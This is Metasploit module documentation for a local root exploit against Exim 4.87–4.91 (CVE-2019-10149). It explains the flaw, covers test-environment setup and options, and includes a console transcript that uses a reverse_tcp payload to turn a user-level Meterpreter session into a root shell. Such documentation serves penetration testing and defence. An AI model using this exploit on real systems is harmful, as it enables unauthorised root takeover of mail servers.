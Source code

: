 ## Vulnerable Application

Exim 4.87 - 4.91 Local Privilege Escalation

This module exploits a flaw found in Exim versions 4.87 to 4.91 (inclusive). Improper validation of recipient address in deliver_message() function in /src/deliver.c may lead to command execution with root privileges (CVE-2019-10149).

Both meterpreter shell and classic shell are supported. The exploit will upload the specified `payload`, set the suid bit, and execute it to create a new root session. In order for the new session to be a root one, both `PrependSetuid` and `PrependSetgid` must be set to true (which is the default configuration for the exploit), and the `WritableDir` must be mounted without `nosuid`.

# Creating A Testing Environment

You basically just need to have a exim (between 4.87 and 4.91 inclusive) running and listening on a port (port 25 by default).
For my tests, I used a VM with Ubuntu 18.04 LTS and exim 4.89 (I tested all the versions from 4.87 to 4.91). The exim source code can be downloaded from the official website (all the old versions can be found).
You can also use this good Docker image which sets up a container with a vulnerable exim version running (https://github.com/dhn/exploits/tree/master/CVE-2019-10149).
Be careful if you use the exim package from the official repo of your Linux distribution, even if the version is between 4.87 and 4.91, it may still be patched against the vulnerability (it is the case on Ubuntu at least).

Before using the exploit, make sure exim is actually listening on a port (it may sound stupid, but I struggled a bit when creating a testing environment). However, you should not have any problem if you use the Docker image linked above.

## Verification Steps

1. `use exploit/linux/local/exim4_deliver_message_priv_esc`
2. `set SESSION [session]`
3. `set PAYLOAD [payload]`
4. `set LHOST [lhost]`
5. `set LPORT [lport]`
6. `exploit`

## Options

## PAYLOAD

Set this option to choose which type of root session you want to create.

## EXIMPORT

The port that exim is listening to. On most cases it will be port 25 (which is the default).

## ForceExploit

Force exploit even if the current session is root.

## ExpectTimeout

Timeout for Expect when communicating with exim.

## WritableDir

A directory where we can write files (default is /tmp).


## Scenarios

## Privilege escalation starting with a meterpreter shell

```
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=1000, egid=1000
meterpreter >
Background session 1? [y/N]
msf5 exploit(multi/handler) > use exploit/linux/local/exim4_deliver_message_priv_esc
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set session 1
session => 1
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lhost 192.168.0.50
lhost => 192.168.0.50
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set lport 13371
lport => 13371
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > set EXIMPATH /usr/exim/bin/exim
EXIMPATH => /usr/exim/bin/exim
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > check
[*] The target appears to be vulnerable.
msf5 exploit(linux/local/exim4_deliver_message_priv_esc) > exploit

[*] Started reverse TCP handler on 192.168.0.50:13371
[*] Payload sent, wait a few seconds...
[*] Sending stage (985320 bytes) to 192.168.0.80
[*] Meterpreter session 2 opened (192.168.0.50:13371 -> 192.168.0.80:45562) at 2019-07-07 23:46:37 +0100
[+] Deleted /tmp/eMhzFtUYGQ
[+] Check session 2, you should have a root shell!

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > sysinfo
Computer     : 192.168.0.80
OS           : Ubuntu 18.04 (Linux 4.18.0-25-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter >
```
